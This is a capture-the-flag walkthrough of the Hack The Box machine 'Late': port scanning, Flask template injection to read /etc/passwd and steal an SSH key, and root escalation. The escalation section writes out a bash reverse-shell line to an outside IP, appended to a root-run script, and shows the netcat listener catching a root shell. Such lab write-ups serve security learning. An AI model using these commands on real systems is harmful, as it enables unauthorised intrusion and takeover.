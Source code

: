 ```yaml
---
title: '[HTB] Late'
date: 2022-05-29 8:45 PM
categories: [HTB, Machines]
tags: [easy, linux, machines, flask]
permalink: /:categories/:title
img_path: /assets/img/htb/machines/late
---
```


![banner](banner.png) 

## Enumeration

### NMAP

```console
❯ nmap -sV --open 10.10.11.156
Starting Nmap 7.92 ( https://nmap.org ) at 2022-06-04 11:19 CEST
Nmap scan report for 10.10.11.156
Host is up (0.084s latency).
Not shown: 961 closed tcp ports (conn-refused), 37 filtered tcp ports (no-response)
Some closed ports may be reported as filtered due to --defeat-rst-ratelimit
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.6 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    nginx 1.14.0 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 23.54 seconds
```
> We see port 80 and 22 are open, so we have to go to the website.

### Domains

When we enter to the website and look at the source code we found this:

![source](subdomain.png) 
_Source code website_


```console
❯ echo "10.10.11.156 late.htb images.late.htb" | sudo tee -a /etc/hosts
```
If we see the domain there is nothing interesting.

![domain](domain.png) 

On the subdomain we have a image to text conversor. This website use Flask, after a [search](https://medium.com/@nyomanpradipta120/ssti-in-flask-jinja2-20b068fdaeee) I know what I need to do.

![subdomain](metaview.png) 

## Foothold

### Flask injection 

In first place I'm gonna test if this vulnerability works. Using {{ config }} list internal flask configurations, let's see.

![img1](img1.png)
_First image_

After uploading the image we download a txt file with the result. This image give us the following result, which confirms that is vulnerable to Flask injection.

![result1](result1.png)
_First result_

Following instructions form the website that explained the Flask injection, we can do RCE.

![img2](img2.png)
_Second image_

Seeing the file `/etc/passwd`{: .filepath} we can know the username to later start an ssh session with this.

![result2](result2.png)
_Second result_

Now we just extract the OpenSSH private key and we can login. 

![img3](img3.png)
_Final image_

Here is the id_rsa file. 

![result3](result3.png)
_Final result_

### SSH 

```console
❯ ssh -i id_rsa user@late.htb
user@late:~$ id
uid=1000(user) gid=1000(user) groups=1000(user)
user@late:~$ 
```

### Privilege Escalation

If we use linpeas, we can see that in `/usr/local/sbin`{: .filepath} we have a high PE vector.

![linpeas](linpeas.png) 
_linpeas output_

If we go to the directory, there is a script with execute permissions.

Well, they make it easy for us. We introduce a reverse shell in the script and then ssh to localhost to trigger the script, since it is a script that alerts of ssh logins.

```console
user@late:/usr/local/sbin$ ls -l
total 4
-rwxr-xr-x 1 user user 433 Jun  4 09:46 ssh-alert.sh
user@late:/usr/local/sbin$ echo 'bash -i >& /dev/tcp/10.10.16.10/4444 0>&1' >> ssh-alert.sh ; ssh localhost
```

While the netcat will be active and when we have used the previous command we will already be inside the root user.

```console
❯ nc -nlvp 4444
listening on [any] 4444 ...
connect to [10.10.16.10] from (UNKNOWN) [10.10.11.156] 60668
bash: cannot set terminal process group (27514): Inappropriate ioctl for device
bash: no job control in this shell
root@late:/# id
id
uid=0(root) gid=0(root) groups=0(root)
```

## Conclusion

This machine is not difficult but Flask injection makes it difficult. I had to test the injection with many formats, many times. Since the app didn't read it well. Ignoring that, a fun and easy machine.

### Techniques and Tools

1. nmap 
2. linpeas
3. Flask injection 
4. RCE (Remote Code Execution)
5. PE (Privilege Escalation)
